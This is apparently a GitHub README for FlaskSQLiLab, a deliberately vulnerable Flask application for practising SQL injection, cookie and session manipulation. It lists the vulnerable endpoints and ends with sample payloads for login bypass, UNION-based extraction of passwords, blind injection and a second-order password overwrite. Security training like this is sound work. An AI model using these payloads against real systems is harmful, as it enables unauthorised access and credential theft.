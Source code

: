 # FlaskSQLiLab

**Built and created by [Meni](https://x.com/MeniTasa) – Cybersecurity Lead | 🛡️ CISO | ☁️ CloudSec | 🌐 NetSec (CCNP) | 🔍 Web Pentester | ✍️ Writer**

**FlaskSQLiLab** is a deliberately vulnerable Flask web application built specifically for educational purposes. It enables security enthusiasts, penetration testers, and cybersecurity students to practice a variety of SQL injection techniques and understand web security concepts, such as session handling, cookie manipulation, and JSON-based data extraction.

---

## ⚠️ Security Disclaimer

**Important:** FlaskSQLiLab is intentionally vulnerable and designed solely for educational and learning purposes. **Never expose or deploy it publicly or use it in a production environment.**

---

## 📂 Project Structure

```
FlaskSQLiLab/
├── venv/
├── app.py
├── schema.sql
├── users.db
├── requirements.txt
├── static/
│   └── style.css
└── templates/
    ├── login.html
    ├── register.html
    ├── dashboard.html
    ├── search.html
    ├── check_user.html
    └── update_profile.html
```

---

## 🚀 Getting Started

### Step 1: Set Up the Environment

```bash
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

### Step 2: Initialize the Database

```bash
sqlite3 users.db < schema.sql
```

### Step 3: Run the Application

```bash
python app.py
```

Access the application at:

```
http://localhost:5000
```

---

## 📌 Features, Vulnerabilities & JSON Endpoints

The application contains these intentionally vulnerable endpoints for practice:

| Endpoint              | Type of Injection                          | Usage / Response                                  |
| --------------------- | ------------------------------------------ | ------------------------------------------------- |
| `/` (Login)           | Error-based SQL Injection                  | Authentication bypass                             |
| `/register`           | Error-based SQL Injection                  | User registration & injection practice            |
| `/search`             | Error-based SQL Injection                  | JSON Data extraction (`{"users": [...]}`)         |
| `/profile/<username>` | UNION-based SQL Injection                  | JSON-based data extraction of user information    |
| `/check_user`         | Blind SQL Injection (Boolean & Time-based) | User existence check with JSON response           |
| `/update_profile`     | Second-order SQL Injection                 | Update user profile & JSON response               |
| `/session-info`       | Session & Cookie Manipulation              | Inspect and modify sessions/cookies (JSON output) |
| `/dashboard`          | Cookie-based SQL Injection                 | Cookie manipulation and authentication bypass     |

---

## 🎯 Enhanced Security Challenges (JSON-based)

- **Extract Sensitive Data:**  
  Practice injecting malicious payloads (`UNION`, error-based) to extract usernames and passwords in structured JSON format.

- **Cookie Manipulation:**  
  Modify the "remember me" cookie manually to demonstrate cookie vulnerabilities and SQL injection through cookies.

- **Session Handling:**  
  Use JSON responses from `/session-info` to clearly visualize session data and understand interactions with browser cookies.

---

## 🔧 Technologies Used

- Flask (Python)
- SQLite3
- HTML & CSS
- JSON responses for structured data exchange
- Git (version control)

---

## 📖 Educational Usage & Ethical Guidelines

Use **FlaskSQLiLab** exclusively in controlled and isolated environments for cybersecurity training purposes. Always follow ethical guidelines and respect legal boundaries when practicing penetration testing.

---

### 📌 Example SQL Injection Payloads (to practice clearly):

- **Login authentication bypass:**

  ```sql
  admin' OR '1'='1' --
  ```

- **Extract all users via `/search`:**

  ```sql
  %' OR '1'='1' --
  ```

- **UNION-based Injection via `/profile/<username>`:**

  ```
  admin' UNION SELECT id,username,password,remember_token FROM users --
  ```

- **Boolean Blind Injection via `/check_user`:**

  ```sql
  admin' AND (SELECT COUNT(*) FROM users WHERE username='admin')>0 --
  ```

- **Second-order Injection via `/update_profile`:**
  ```sql
  attacker', password='hacked' WHERE username='admin' --
  ```

---

**Happy Hacking!**
